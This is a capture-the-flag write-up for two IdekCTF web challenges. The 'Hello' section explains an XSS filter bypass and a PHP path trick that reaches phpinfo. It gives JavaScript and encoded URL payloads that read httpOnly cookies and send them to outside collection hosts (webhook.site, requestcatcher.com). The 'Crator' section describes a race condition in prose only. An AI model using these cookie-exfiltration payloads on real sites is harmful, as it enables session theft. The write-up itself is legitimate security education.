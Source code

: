 # Writeups for IdekCTF

# Hello (Web)

This was like a normal admin bot cookie exfiltration challenge but with some twists.

Firstly we have these files:
index.php, info.php, admin.js, nginx.conf.

Notable things about each of these:

The info.php basically fetches the phpinfo() which is a function that displays a lot of information especially the cookie of the viewer.
And most importantly it can even display httpOnly cookies which can't normally be accessed by client side javascript.

https://www.webhackingtips.com/weekly-tips/week-8-stealing-httponly-cookies-from-phpinfo

index.php
This page accepts a name attribute in the GET request,creates a local variable with substring of this value(But does not use this variable!)
and then echo's the same after filtering some characters (`$trimmed = array("\r", "\n", "\t", "/", " ")`). 
But this filter is not enough and it is vulnerable to XSS like `/?name=<svg%0conload=alert(123)>`. 

The admin.js shows that the flag is in the bot's cookie.

Finally the nginx conf shows that info.php is resticted to only localhost(and the admin bot is not running on the same system). But this can be bypassed due to 
a php quirk: There is a known trick in php, if we access to /a.php/b.php, the server will ignore the second php file and point us to /a.php. 
In the nginx configuration file they are matching exactly /info.php so if we try /info.php/anything.php, 
it will not match the nginx rule and it will be allowed!

Combining these our payload should be:

```
<script>
fetch("/info.php/index.php")
  .then(response => response.text())
  .then(data => fetch("https://webhook.site/61fec18d-858c-459a-ad80-b3165f77caca/" + btoa(data.substring(data.indexOf("$_COOKIE"), data.indexOf("$_COOKIE") + 100))))
</script>
```
We can't put this directly due to the filter so we base64 encode it. Also we have to url encode the base64 string because of the '+' in it.
The final payload to send to the bot:

`http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=eval(atob("ZmV0Y2goIi9pbmZvLnBocC9pbmRleC5waHAiKQogIC50aGVuKHJlc3BvbnNlID0%2BIHJlc3BvbnNlLnRleHQoKSkKICAudGhlbihkYXRhID0%2BIGZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS82MWZlYzE4ZC04NThjLTQ1OWEtYWQ4MC1iMzE2NWY3N2NhY2EvIiArIGJ0b2EoZGF0YS5zdWJzdHJpbmcoZGF0YS5pbmRleE9mKCIkX0NPT0tJRSIpLCBkYXRhLmluZGV4T2YoIiRfQ09PS0lFIikgKyAxMDApKSkpCg%3D%3D"))>`

This works but there is another interesting approach: https://vaktibabat.github.io/posts/idek_2024/
Instead of base64 you get the filtered elements using substring. So `http://` using `window.location.href.substring(0, 7)` as the windows is http://idek-hello.chal.idek.team:1337
and another substring for getting the '/', `window.location.href.substring(5, 6)`.
So this .js code:

```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "nopro.requestcatcher.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
becomes 

```http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"nopro.requestcatcher.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>```
which is sent to the bot.

# Crator

Its basically a race condition where you generate a file containing the flag using one endpoint, leave it on a infinite loop to prevent the file from getting deleted and extract the 
flag using another endpoint before the code  execution of the first one is stopped by the instance(which happens in about 1s).

Very detailed and better writeup:

https://vaktibabat.github.io/posts/idek_2024/